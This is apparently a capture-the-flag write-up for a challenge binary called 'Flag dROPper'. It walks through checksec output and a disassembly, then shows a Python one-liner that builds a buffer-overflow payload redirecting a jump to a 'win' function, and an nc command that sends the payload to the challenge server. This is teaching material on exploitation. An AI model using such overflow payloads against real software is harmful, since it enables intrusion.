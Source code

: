 # Flag dROPper

The challenge provided an ELF executable that prints some text and waits for user input.

```
$ ./flagDropper
Welcome to the Flag Dropper!
Make sure to catch the flag when its dropped!
1,
2,
3,
CATCH
f
```

The ```checksec``` command in ```gef``` yelds a simple binary without relevant security measures
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Disassembling the binary yelds a function with several syscalls and a ```JMP```.
```
$ objdump -M intel -d flagDropper

0000000000400540 <main>:
  400540:       55                      push   rbp
  400541:       48 89 e5                mov    rbp,rsp
  400544:       b8 01 00 00 00          mov    eax,0x1
  400549:       bf 01 00 00 00          mov    edi,0x1
  40054e:       48 be 38 10 60 00 00    movabs rsi,0x601038
  400555:       00 00 00
  400558:       ba 4b 00 00 00          mov    edx,0x4b
  40055d:       0f 05                   syscall
  40055f:       b8 01 00 00 00          mov    eax,0x1
  400564:       bf 01 00 00 00          mov    edi,0x1
  400569:       48 be 84 10 60 00 00    movabs rsi,0x601084
  400570:       00 00 00
  400573:       ba 11 00 00 00          mov    edx,0x11
  400578:       0f 05                   syscall
  40057a:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  400581:       00
  400582:       48 83 c0 48             add    rax,0x48
  400586:       c7 00 d0 05 40 00       mov    DWORD PTR [rax],0x4005d0
  40058c:       b8 00 00 00 00          mov    eax,0x0
  400591:       bf 00 00 00 00          mov    edi,0x0
  400596:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  40059d:       00 00 00
  4005a0:       ba c8 00 00 00          mov    edx,0xc8
  4005a5:       0f 05                   syscall
  4005a7:       b8 01 00 00 00          mov    eax,0x1
  4005ac:       bf 01 00 00 00          mov    edi,0x1
  4005b1:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  4005b8:       00 00 00
  4005bb:       ba 40 00 00 00          mov    edx,0x40
  4005c0:       0f 05                   syscall
  4005c2:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  4005c9:       00
  4005ca:       48 83 c0 48             add    rax,0x48
  4005ce:       ff 20                   jmp    QWORD PTR [rax]

00000000004005d0 <_exit>:
  4005d0:       b8 3c 00 00 00          mov    eax,0x3c
  4005d5:       48 31 ff                xor    rdi,rdi
  4005d8:       0f 05                   syscall

00000000004005da <win>:
  4005da:       b8 00 00 00 00          mov    eax,0x0
  4005df:       48 8d 34 25 9d 10 60    lea    rsi,ds:0x60109d
  4005e6:       00
  4005e7:       48 8d 3c 25 94 10 60    lea    rdi,ds:0x601094
  4005ee:       00
  4005ef:       e8 4c fe ff ff          call   400440 <fopen@plt>
  4005f4:       48 89 c2                mov    rdx,rax
  4005f7:       b8 00 00 00 00          mov    eax,0x0
  4005fc:       48 bf 24 11 60 00 00    movabs rdi,0x601124
  400603:       00 00 00
  400606:       be 16 00 00 00          mov    esi,0x16
  40060b:       e8 20 fe ff ff          call   400430 <fgets@plt>
  400610:       bf 01 00 00 00          mov    edi,0x1
  400615:       b8 01 00 00 00          mov    eax,0x1
  40061a:       ba 16 00 00 00          mov    edx,0x16
  40061f:       0f 05                   syscall
  400621:       eb ad                   jmp    4005d0 <_exit>
  400623:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40062a:       00 00 00
  40062d:       0f 1f 00                nop    DWORD PTR [rax]
```

The ```JMP``` at address ```0x4005ce``` uses the data at the end of the buffer, after byte ```0x48```.
This buffer seems to hold the result of the text provided by the user.
After the ```JMP``` the program exits. Interestingly, there is a label ```win``` after the exit, whichs opens
a file, gets the result, prints the result using a ```syscall``` and then exits. Seems like we have a winner!

Further inspection with ```gdb``` shows that the memory used for the buffer is full of ```0x00``` and ends with ``` 0x4005d0```.
Therefore, without an overflow, the code will jump to the exist section and will terminate the program.

A valid attack would be to provide a payload with ```0x48``` bytes of padding and then ```0x4005da```. 
This would make the code jump to the ```win``` method.

To generate the payload:
```
python3 -c "with open('payload', 'wb') as f: f.write(b'\xaa'*0x48+b'\xda')"
```
We only need to write ```0xda``` as the result of the address has the same prefix (```0x4005```)


Then send the payload to the server:
```
nc dropper.sdc.tf 1337 < payload
```

which would provide the flag.

